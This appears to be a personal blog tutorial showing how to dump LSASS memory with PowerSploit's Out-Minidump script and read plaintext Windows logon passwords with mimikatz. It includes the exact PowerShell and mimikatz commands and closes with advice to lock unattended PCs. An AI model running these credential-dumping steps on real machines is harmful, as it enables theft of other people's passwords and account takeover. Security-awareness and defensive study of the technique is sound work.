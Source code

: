 ```yaml
---
layout: post
title: Getting plaintext Windows passwords on unlocked PC
description: A simple how-to article demonstrating existing vulnerability that makes your Windows passwords are hackable.
tags: [Windows, Password, Vulnerability]
comments: true
---
```


I found [this article](http://www.fixedbyvonnie.com/2015/02/hack-passwords-of-windows-in-5-minutes) mentioning about the existing vulnerability in Windows OS where you can get the plaintext view of your passwords on any unlocked computer. So, I tried it on my Windows 10 PC and found that the vulnerability is still exist. The method used here is not new at all, and anyone can perform this hacking on any unlocked Windows PC providing that they know how to use the following tools.



### Tools you need

- [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest) - just get the binary package, e.g. `mimikatz_trunk.zip`
- [Out-Minidump.ps1](https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1) - PowerShell script

Download all the tools above and let's start hacking!



### 1. Perform memory dump using the PowerShell script

To perform the [LSASS](https://technet.microsoft.com/en-us/library/cc961760.aspx) dump, I will use the PowerShell script - `Out-Minidump.ps1`. The flow of cmdlet will look like this:

{% include figure.html src="assets/images/1lQnyhZ.png" caption="PowerShell cmdlet" %}

```powershell
. 'G:\USERFILES\Desktop\PowerShell Playground\Out-Minidump.ps1'
# "dot sourcing" method to import function from the script

Get-Process lsass | Out-Minidump
# To perform the LSASS dump

Copy-Item .\lsass_868.dmp 'G:\USERFILES\Desktop\PowerShell Playground'
# Copy the dump file to desired location
```

### 2. View the passwords using the mimikatz terminal program

As you can see, `lsass_868.dmp` is the example of LSASS dump file captured using the PowerShell script. Now, it's time I need to use the mimikatz terminal to load in the dump file as follows:

```
sekurlsa::minidump "G:\USERFILES\Desktop\PowerShell Playground\lsass_868.dmp"
```

{% include figure.html src="assets/images/OPA0g0w.png" caption="mimikatz MINIDUMP" %}

Switching to MINIDUMP file, so now I can view the passwords. Now, I will run this command to display all the accounts and passwords available:

```
sekurlsa::logonPasswords full
```

Voila! There, I can see my actual Microsoft Account username and password in _a plaintext view_.

{% include figure.html src="assets/images/nWPZUIR.jpg" caption="mimikatz logonPasswords" %}



### Explanation of the vulnerability

The fact is that the password is encrypted but it's _useless_ as the implementation depends on two basic Win32 functions; [LsaProtectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714509%28v=vs.85%29.aspx) (the encryption function) and [LsaUnprotectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714510(v=vs.85).aspx) (the decryption function). So, the Windows stores these encrypted user passwords in memory without using any of one-way hash algorithm which is decryptable using **LsaUnprotectMemory** function to a plain text.

**So, it is RECOMMENDED to always lock your Windows when you are away, especially when you are in office or public place. This hacking can simply be done less than five minutes!**